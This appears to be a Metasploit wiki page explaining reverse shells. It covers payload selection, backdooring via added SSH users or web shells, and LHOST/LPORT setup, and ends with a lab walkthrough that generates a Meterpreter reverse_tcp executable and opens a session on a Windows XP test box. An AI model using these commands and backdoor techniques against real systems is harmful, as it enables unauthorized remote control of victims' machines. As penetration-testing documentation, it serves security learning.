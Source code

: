 There are two popular types of shells: bind and reverse. A bind shell is the kind that opens up a new service on the target machine, and requires the attacker to connect to it in order to get a session. A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

The basic usage of payloads is already quite well documented in the [Users Guide](https://github.com/rapid7/metasploit-framework/blob/master/documentation/users_guide_4.3.pdf) in Metasploit's documentation folder. However, learning how to use a reverse shell still remains the most common question in the Metasploit community. Plus, 9 times out of 10 you'd probably be using a reverse shell to get a session, so in this wiki documentation we will explain more about this.

## List of Metasploit reverse shells

As of now, there are 168 different reverse shells in the Metasploit Framework. We will not list all of them here, because that's just straight up spamming. But if you'd like, you can run the following command to get msfpayload to tell you:

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a meterpreter, because it currently provides better support of post exploitation Metasploit has to offer. For example, railgun, post modules, unique meterpreter commands (like webcam controls), etc.

In Windows, the most commonly used reverse shell is windows/meterpreter/reverse. But you can also try windows/meterpreter/reverse_http or windows/meterpreter/reverse_https, because their network traffic appear a little bit less abnormal.

In Linux, you can also try linux/x86/meterpreter/reverse_tcp, or the 64-bit one. However, just know that linux/x86/shell_reverse_tcp has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios (but not limited to), then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind the port it wants due to whatever reason.
* You simply can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example: if the target machine is already running a SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP, or ASP.net. The Metasploit Framework offers payloads in all these languages (and many others).

Same thing for VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either msfpayload or msfvenom, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to, literally. If you're in a local area network, it is unlikely your target machine can actually reach you unless you both are in the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself.
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

**Step 1: I generate my executable payload:**

On the attacker's box, I run msfpayload like the following (or msfvenom, whatever you prefer):


```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe  
Created by msfpayload (http://www.metasploit.com).  
Payload: windows/meterpreter/reverse_tcp  
Length: 287  
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}  
```

**Step 2: I copy my executable payload to Box B (my victim machine)**
 
This step requires no further explanation.

**Step 3: I set up my payload handler on box A (the attacker's box):**

```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123 
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
```

**Step 4: I double-click on the malicious executable**
 
This step requires no further explanation.
 
**Step 5: I should see a meterpreter/payload session on box A (the attacker's box)**
 
Like this:


```bash
$ ./msfconsole -q  
msf > use exploit/multi/handler  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444  
lport => 4444  
msf exploit(handler) > run  
  
[*] Started reverse handler on 192.168.1.123:4444  
[*] Starting the payload handler...  
[*] Sending stage (770048 bytes) to 192.168.1.80  
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500  
meterpreter >  
```

The meterpreter prompt means you are currently interacting with the payload.